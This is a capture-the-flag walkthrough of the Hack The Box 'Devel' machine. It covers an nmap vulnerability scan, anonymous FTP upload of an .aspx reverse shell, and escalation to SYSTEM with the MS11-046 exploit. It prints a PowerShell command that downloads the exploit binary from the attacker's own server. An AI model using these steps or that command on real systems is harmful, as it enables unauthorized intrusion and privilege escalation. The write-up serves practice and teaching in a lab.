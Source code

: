 # Devel
<div align="center">
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/f386dc63-4e14-4568-afd6-faa1720e7732"></img>
</div>


  Welcome back, here we have a very old HacktheBox easy machine, that for this reason is really simple, but let’s start as usual, by running `nmap`

  ```plaintext
  ┌──(kali㉿kali)-[~/diego/Hack_the_box/Machines/Devel]
  └─$ sudo nmap -sS -sC -sV --script=vuln -oN scans/nmap.txt 10.10.10.5
  [sudo] password for kali: 
  Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-22 14:50 EDT
  Nmap scan report for 10.10.10.5
  Host is up (0.056s latency).
  Not shown: 998 filtered tcp ports (no-response)
  PORT   STATE SERVICE VERSION
  21/tcp open  ftp     Microsoft ftpd
  80/tcp open  http    Microsoft IIS httpd 7.5
  |_http-server-header: Microsoft-IIS/7.5
  | vulners: 
  |   cpe:/a:microsoft:internet_information_services:7.5: 
  |       CVE-2010-3972   10.0    https://vulners.com/cve/CVE-2010-3972
  |       SSV:20122       9.3     https://vulners.com/seebug/SSV:20122    *EXPLOIT*
  |       CVE-2010-2730   9.3     https://vulners.com/cve/CVE-2010-2730
  |       SSV:20121       4.3     https://vulners.com/seebug/SSV:20121    *EXPLOIT*
  |_      CVE-2010-1899   4.3     https://vulners.com/cve/CVE-2010-1899
  |_http-dombased-xss: Couldn't find any DOM based XSS.
  |_http-csrf: Couldn't find any CSRF vulnerabilities.
  |_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
  Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 253.22 seconds
  ```
  
  As always we have a website that we can visit
  
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/3d4b9792-8015-4ca5-9c13-6d2f344fbfb3" load="lazy" ></img>
  
  This is the tipical page of Windows IIS, where we have nothing to do, but from nmap we can see that there is the ftp port, and maybe we can login via anonymous
  
  
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/b0f2e002-12d3-410b-9658-b1274483d886" load="lazy"></img>
  
  
  And we are in! By listing the files we can see that there are all the pages that are visitable from the site, like the `welcome.png` one.
  
 
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/78de96a2-01ef-4521-af83-ca2d1b8dcde2" load="lazy" ></img>

  
  We can now try to upload custom files like a revshell in php or py.

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/53edac12-de11-4a8c-b3cd-ddee6c0d2605" load="lazy" ></img>

  
  As you can see neither of them seems not to be readable from the website page, so we can think of an executable extension allowed, and because we are in an `aspnet_client`, maybe we can use the `.aspx` extension.

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/70801370-8c8c-4c11-acf3-639794f6960e" load="lazy" ></img>
 
  
  It works so now we can upload an `.aspx` reverseshell found [online](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx).
  Now we just need to upload it and visit the page while listening at that port
  

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/6afc1ae2-b706-44ae-81ae-397738e04e64" load="lazy"></img>
  
  ## Privilege Escalation
  
  In this machine we won’t be able to read the user flag until we will get to admin, because we are not allowd to visit the user page, but by looking at the system informations we can get some interesting infos
  
 
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/b466cd52-7d35-4242-bbdf-0b08ec794eb8" load="lazy"></img>

  
  As you can see we have a pretty old windows version without any Hot-Fix, and by looking for it online we found an interesting page 

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/42ac3ed2-d3e5-43c5-a6f7-70a6f0153e8a" load="lazy"></img>

  
  
  We have even the `EDB-ID` that we can use to fetch the exploit from searchsploit
  

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/0c8e9333-9965-4c43-882a-0217713822c3" load="lazy"></img>

  
  Now we need to compile the code in the given way of the `CVE`
  

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/a743e510-f373-40aa-9bf3-0302fcf077ec" load="lazy"></img>
  
  
  
  So just compile and trasfer it via python server 
  
  ```c
  powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.204:8000/MS11-046.exe', 'C:\Windows\Temp\MS11-046.exe')"
  ```
  
  And here is the exploit execution

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/a4eb57ba-388f-4303-a7af-a4f8238df9f6" load="lazy"></img>

  
  
  Now we are system and like this we can fetch all the flags
  
  ```plaintext
  c:\>type \Users\babis\Desktop\user.txt
  type \Users\babis\Desktop\user.txt
  aXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX6
  
  c:\>type \Users\administrator\Desktop\root.txt
  type \Users\administrator\Desktop\root.txt
  6XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX5
  ```
  Just like this we solved the machine

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/9adc4f54-8bd3-41dd-bde1-311c173dde88" load="lazy"></img>

</div>
